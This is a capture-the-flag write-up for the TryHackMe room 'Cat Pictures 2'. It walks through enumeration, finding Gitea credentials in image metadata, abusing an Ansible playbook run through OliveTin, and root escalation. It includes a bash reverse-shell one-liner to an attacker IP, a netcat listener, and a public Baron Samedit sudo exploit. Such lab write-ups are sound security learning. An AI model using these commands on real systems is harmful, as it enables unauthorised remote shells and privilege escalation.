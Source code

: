 ```yaml
---
title: "TryHackMe: Cat Pictures 2"
collection: publications
permalink: /publication/cat-pictures-2
excerpt: 'This is a free room from TryHackMe'
date: 2023-07-07
venue: '07-07'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/catpictures2.png)

**LINK :** [Cat Pictures 2](https://tryhackme.com/room/catpictures2)



# Enumeration

* Started by running an Nmap scan :

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 07:21 EDT
Nmap scan report for 10.10.130.123
Host is up (0.064s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
1337/tcp open  http    OliveTin
3000/tcp open  ppp?
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
```

The scan reveals 6 open ports :

 * ``ssh`` running on port 22.
 * ``nginx`` on port 80.
 * ``ssh`` on port 222.
 * ``OliveTin`` on port 1337 to access predefined shell commands from a a web interface.
 * ``Gitea`` on port 3000.
 * ``nginx`` default page on port 8080.


---

* On port 80 we have a ``Lychee`` photo album with cat pictures, and since this room is about cats, it must be our way to get the first flag.
* I downloaded all the cats pictures and run ``exiftool`` to read the metadata of these pictures.

```bash
exiftool *.jpg
```
![catpictures1](/images/cat_pictures1.png)

* I noticed that one of these pictures revealed the path to a text file on port ``8080``.

* Checking the text file, we found the credentials to access ``gitea``.

![catpictures2](/images/cat_pictures2.png)

# FLAG 1 :

* After gaining the access to the user's account we found, you will see a file named ``flag1.txt`` in ``ansible`` repository.

![catpictures3](/images/cat_pictures3.png)

# FLAG 2 :

* Checking the Ansible playbook, you will notice it contains a ``command`` line. so the idea here is to change the command and run the playbook from the ``OliveTin`` page on port ``1337`` to see if the command is getting executed.

> [Ansible playbooks](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)

![catpictures4](/images/cat_pictures4.png)

![catpictures5](/images/cat_pictures5.png)

![catpictures6](/images/cat_pictures6.png)

* Since the command is getting executed, we can run a reverse shell to us.

```bash
bash -c "bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1"
```
![catpictures7](/images/cat_pictures7.png)

* Before you run the ansible playbook, let's open a netcat listener

```bash
nc -lvnp 4444
```
![catpictures8](/images/cat_pictures8.png)

# FLAG 3 :

* In order to speed things up, let's run ``linpeas`` to see if we have a privilege escalation vector.

> [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

* The one that stood out is ``the sudo Baron Samedit``.

![catpictures9](/images/cat_pictures9.png)

* I downloaded this [exploit](https://github.com/blasty/CVE-2021-3156) and uploaded it to the target machine.

```bash
make
```
![catpictures10](/images/cat_pictures10.png)

* let's run ``sudo-hax-me-a-sandwic``

```bash
.\sudo-hax-me-a-sandwic 0
```
![catpictures11](/images/cat_pictures11.png)

* Now we are root, change directory to ``/root`` and get your 3rd flag.




